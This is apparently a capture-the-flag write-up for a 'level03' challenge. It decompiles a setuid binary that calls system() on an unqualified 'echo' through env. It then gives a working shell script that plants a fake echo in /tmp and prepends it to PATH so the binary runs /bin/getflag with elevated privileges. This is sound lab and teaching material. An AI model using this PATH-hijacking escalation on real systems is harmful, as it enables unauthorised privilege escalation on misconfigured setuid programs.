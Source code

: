 Inside home folder, there is a binary file, level03.
Decompiling with Ghidra, we get this main function:

int main(int argc,char **argv,char **envp)

{
  __gid_t __rgid;
  __uid_t __ruid;
  int ret;
  gid_t gid;
  uid_t uid;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  ret = system("/usr/bin/env echo Exploit me");
  return ret;
}

./level03 has special permissions (+s) for user flag03
lets modify $PATH so we can execute a fake version of echo which redirects
to getflag

```
exploit=/tmp/echo
cat << EOF > $exploit
#!/bin/bash
/bin/getflag
EOF

export PATH=/tmp:$PATH
/bin/chmod +x $exploit
./level03
```
